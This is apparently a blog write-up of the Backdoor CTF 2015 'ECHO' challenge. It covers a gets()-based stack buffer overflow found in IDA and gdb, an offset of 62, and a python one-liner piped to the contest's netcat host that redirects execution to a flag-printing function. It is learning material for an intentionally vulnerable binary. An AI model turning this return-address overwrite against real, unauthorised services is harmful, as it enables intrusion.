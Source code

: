 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - ECHO Writeup"
date: 2015-04-03 02:12:58 +0430
comments: false
categories: ctf backdoor bianry exploit bof
---
```


**Backdoor 2015 ECHO Writeup**  
**Point = 100**  
**Category = Binary**  

> Little Suzie started learning C. She created a simple program that echo's back whatever you input. Here is the binary file. The vampire came across this service on the internet. nc hack.bckdr.in 8002. Reports say he found a flag. See if you can get it.

```
$ file echo
echo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=15ec07e5664a13e94069c818141cc9f70591d0f0, not stripped
```

As it seems we have a 32bit binary as a ECHO server. the output confirms this:

```
$ nc hack.bckdr.in 8002
GeeksSpeak
ECHO: GeeksSpeak
```

opening the binary in IDA shows us that the main function calls test() as we can see the psuedo-code below :

<!-- more -->
```
int test()
{
  char s; // [sp+1Eh] [bp-3Ah]@1

  gets(&s);
  return fprintf(_bss_start, "ECHO: %s\n", &s);
}

```

It's an obvious Stack buffer overflow. without loosing time i loaded it into *gdb* and used  cyclic pattern to find the offset:

```
$ gdb ./echo -q
Reading symbols from ./echo...(no debugging symbols found)...done.
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ shell echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL' > echo.test
gdb-peda$ r < echo.test 
Starting program: /home/hamidx9/ctf/backdoor/echo < echo.test
ECHO: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[-----------------------------------------------------------------------------------------------------------registers-----------------------------------------------------------------------------------------------------------]
EAX: 0x6b (b'k')
EBX: 0xf7fae000 --> 0x1a8da8 
ECX: 0x6b (b'k')
EDX: 0xf7faf86c --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x41324141 (b'AA2A')
ESP: 0xffffcdd0 ("dAA3AAIAAeAA4AA"...)
EIP: 0x41414841 (b'AHAA')
[-------------------------------------------------------------------------------------------------------------code--------------------------------------------------------------------------------------------------------------]
Invalid $PC address: 0x41414841
[-------------------------------------------------------------------------------------------------------------stack-------------------------------------------------------------------------------------------------------------]
00:0000| esp 0xffffcdd0 ("dAA3AAIAAeAA4AA"...)
01:0004|     0xffffcdd4 ("AAIAAeAA4AAJAAf"...)
02:0008|     0xffffcdd8 ("AeAA4AAJAAfAA5A"...)
03:0012|     0xffffcddc ("4AAJAAfAA5AAKAA"...)
04:0016|     0xffffcde0 ("AAfAA5AAKAAgAA6"...)
05:0020|     0xffffcde4 ("A5AAKAAgAA6AAL")
06:0024|     0xffffcde8 ("KAAgAA6AAL")
07:0028|     0xffffcdec ("AA6AAL")
[-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------]
Legend: stack, code, data, heap, rodata, value
Stopped reason: SIGSEGV
0x41414841 in ?? ()
gdb-peda$ pattern_offset 'AHAA'
AHAA found at offset: 62
gdb-peda$ 

```

So the `offset = 62`. but where should we jump? IDA shows us there is another function named `sample` which open `flag.txt` and print its content. All have to do is to call `sample` with address = *0x0804854d*.

Final payload looks like below :

```
[A*62] + [0x0804854d in little endian]
```

And finally we've got the flag:

```
$ python -c 'import struct; q=lambda x: struct.pack("<I", x); print "A"*62+q(0x0804854d)' | nc hack.bckdr.in 8002
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAM�
[redacted]
```

And another 100 pt.

HAMIDx9

